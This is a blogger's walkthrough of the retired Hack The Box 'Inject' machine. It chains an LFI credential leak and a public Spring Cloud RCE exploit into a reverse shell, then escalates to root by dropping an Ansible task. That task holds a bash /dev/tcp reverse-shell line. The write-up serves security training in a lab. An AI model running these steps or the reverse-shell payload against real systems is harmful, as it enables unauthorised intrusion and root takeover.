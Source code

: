 ```yaml
---
title: Inject
categories: [HTB]
tags: complete retired easy linux
img_path: /assets/img/HTB/inject/
---
```


![inject.card](Inject.png)

> Inject is an easy Linux machine from Hack the Box. Here is the tldr;
>
> * There is a website running on port `8080` with a page for uploading images. There is a local file disclosure vulnerability that allows us to discover a version of Spring Cloud along with credentials for the user `phil`.
> * We're able to take advantage of that vulnerability to get a reverse shell as the user `frank`.  We're able to `su` to phil with the credentials we found earlier.
> * By running pspy, we discover that there is an Ansible Playbooks automation running as root. By creating a new yaml file in `/opt/automation/tasks` we're able to get a reverse shell as root.
{: .prompt-tip }

## Enumeration

### nmap

```
┌──(dimondsec㉿hackbook)-[~/Documents/HTB/inject]
└─$ nmap 10.129.35.51                              
[sudo] password for dimondsec: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-11 21:36 MST
Nmap scan report for 10.129.35.51
Host is up (0.66s latency).
Not shown: 933 closed tcp ports (reset), 65 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
```

We've only got two ports open, `22` and `8080`. We likely won't find anything with port 22 so let's head over to 8080 in a broswer.

We've got a website, many of the links don't do anything. However, it looks like there may be a site under construction (maybe a subdomain??) We also have an upload page that will only accept images. If we upload an image, it looks like there is an LFI vulnerability in the URL.

To take advatage of this, we can visit the file we just uploaded, intercept the request in burpsuite, and replace the image path with the file we want to see. If we pull up the `/etc/passwd`, we can see that we have three users that can login, `root`, `frank`, and `phil`.

### Local file disclosure

![LFI in burpsuite](lfi.png)

```
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```

Beyond being able to view individual files, if we put in a  directory we can also see the files in that directory. If we take a look in Frank's home directory, there is a folder `.m2` that stands out, in there we find a `settings.xml` file. In that file we find some credentials for the user phil. It doesn't work with SSH, but they will come in handy later.

In the home directory for phil, we can see the user.txt file with our flag, but don't have permission to access it.

![settings file](frank.settings.xml.png)

Next up, let's see if we can find out more information about the web application that is running by checking out `/var/www/`. In there we find a directory called `WebApp` with some more files and directories.

![webapp directory listing](webapp.dir.png)

If we open the `pom.xml` (a common configuration file), we find that it is running a vulnerable version of `Spring Cloud` (3.2.2). 

![pom file](springcloudframework.png)

There is an exploit [here](https://github.com/randallbanner/Spring-Cloud-Function-Vulnerability-CVE-2022-22963-RCE) for the version that's running that gives us remote code execution. I would encourage you to read more about how it works, but basically it creates a shell.sh in your current working directory, starts a basic web server, sends it to our target, makes the shell file executable, and then runs it to give us a reverse shell. It does all of this by sending commands in a specific header in our requests.

![screenshot of request header in expoit script](exploit.command.example.png)

In this request, we can see that it is pinging our attacker machine once to test the connection before continuing on.

Before we can run the exploit, we need to update our listening IP and port, as well as our target IP.

![updaing the script](update.exploit.png)

## User

Before we run our exploit, let's make sure we have a listener open on the port we specified in the script (for me that was 9001). Then let's launch the script and we have a shell a frank!

![we have a shell](wehaveashell.png)

Let's upgrade our shell a little to make it more stable with `$ python3 -c 'import pty;pty.spawn("/bin/bash")'`.

We know our user flag isn't readable by frank, but it is by phil. We found a password used by phil earlier, let's see if we can swith users from frank to phil.

It work! We can now access our user.txt flag.

Now we have a shell with `frank`! From our enumeration earlier, we know that `user.txt` is owned by `phil`, and we already have his password from a file we found a while ago. So `su` to phil and we have our flag.

```shell
phil@inject:~$ cat user.txt
cat user.txt
6a6254c04b6c0d83e57e13a22f51832b
```

Now that we have user, let's run pspy and see if we can see anything of interest that might be running. Start by putting the li`pspy64` script in a www folder and starting up a basic web server. Then on our shell, we use wget to download the script and make it executable.

### Ansible Playbook

When we launch it and watch for a while, we see that ansible playbook is running.

![asbibe in pspy](ansible.pspy64.png)

Since there is an automated task running with Ansible Playbooks running as root, and we have write access to `/opt/automation/tasks` folder (see post about privesc with ansible [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ansible-playbook-privilege-escalation/)), we place a new `.yml` file similar to the existing file in the tasks directory with a command that will be run next time the automation is triggered and give us a shell as root.

Here is what our file  will look like:

```yaml
- hosts: localhost
  tasks:
    - name: Nothing to see here
      ansible.builtin.shell: bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'
```

## Root

To make things easier (since I don't have a very stable shell), I created the new yaml file on my attacker machine, used wget to download it onto the target, then copied it into the `/opt/automation/tasks` folder. Make sure to have a listener open and once the ansible automation runs you will have a shell as root!

![we have root](root.png)